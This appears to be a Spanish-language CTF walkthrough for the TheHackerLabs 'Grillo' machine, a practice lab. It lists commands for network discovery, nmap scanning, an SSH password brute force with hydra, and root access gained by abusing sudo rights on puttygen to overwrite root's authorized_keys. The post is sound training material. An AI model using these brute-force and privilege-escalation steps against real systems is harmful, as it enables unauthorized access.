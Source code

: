 ```yaml
---
layout: post
title: "Grillo"
date: 2024-06-06 11:35:23
category: hackerlabs
vm: hackerlabs
---
```


<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/thehackerlabs/thehackerlabs.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Grillo </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Dificultad:</strong> <span class="easy">Facil</span></td> </tr>
  <tr> <td><strong><a href="https://thehackerslabs.com/grillo/" target="_blank"> Descarga</a></strong></td> </tr>
</table>

<br>

![img](/notas/public/img/thehackerlabs/Grillo/host.png){:.margin}

**1\.** Identificando dispositivos en la red.

`sudo arp-scan -I enp2s0 --localnet`

![img](/notas/public/img/thehackerlabs/Grillo/arp.png){:.margin}

**2\.** Escaneo de puertos y servicios activos.

`sudo nmap -p- --open -sCV -T5 --min-rate=5000 -n -Pn 192.168.1.8`

![img](/notas/public/img/thehackerlabs/Grillo/nmap.png){:.margin}

**3\.** En la web tenemos la pagina de Apache por 'defecto', viendo el codigo fuente por debajo encontramos algo.

`http://192.168.1.8`

![img](/notas/public/img/thehackerlabs/Grillo/80.png){:.margin}
![img](/notas/public/img/thehackerlabs/Grillo/80code.png){:.margin}

**4\.** Haciendo fuerza bruta al ssh. 

`hydra -l melanie -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.8`

![img](/notas/public/img/thehackerlabs/Grillo/hydra.png){:.margin}

**5\.** Me conecto por ssh.

`ssh melanie@192.168.1.8`

![img](/notas/public/img/thehackerlabs/Grillo/sshmelanie.png){:.margin}

**6\.** Reviso binarios que pueda ejecutarlo como sudo.

`sudo -ll`

![img](/notas/public/img/thehackerlabs/Grillo/sudoll.png){:.margin}

**7\.** Genero claves ssh.

`ssh-keygen`

![img](/notas/public/img/thehackerlabs/Grillo/sshkeygen.png){:.margin}

**8\.** Escalando privilegios.

_\- Agrego la clave publica al authorized_keys de root_

`sudo /usr/bin/puttygen .ssh/id_rsa.pub -O public-openssh -o /root/.ssh/authorized_keys`

_\- Me conecto por ssh como root_

`ssh root@192.168.1.8`

![img](/notas/public/img/thehackerlabs/Grillo/root.png){:.margin}

<br>

<a href="#">_Finalizado._</a>